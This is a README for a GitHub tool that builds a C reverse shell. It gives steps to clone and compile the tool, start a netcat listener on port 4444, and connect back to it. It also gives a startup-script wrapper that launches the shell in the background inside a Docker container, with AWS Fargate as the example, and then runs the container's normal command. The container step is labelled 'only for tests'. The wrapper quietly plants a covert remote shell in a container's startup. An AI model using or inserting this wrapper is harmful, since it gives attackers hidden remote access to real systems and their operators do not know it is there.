 # simple-reverse-shell
C program for reverse shell

## How to use?

### Compile
git clone https://github.com/vizarch/simple-reverse-shell
cd simple-reverse-shell
gcc rshell.c -o rshell

### Run
- Listener machine (use netcat)
    - nc -lp 4444

- Client machine
    - ./rshell IP PORT
        - IP - IPv4 address of listener machine
        - PORT - port above (4444)

### Example use case

Enter into Docker container (for example: AWS Fargate)
- ==only for tests==
- create script wrapper for CMD
```bash
#!/bin/sh
set -m # for job control, im not sure about this line

./rshell IP PORT & # put in background

exec CMD
```
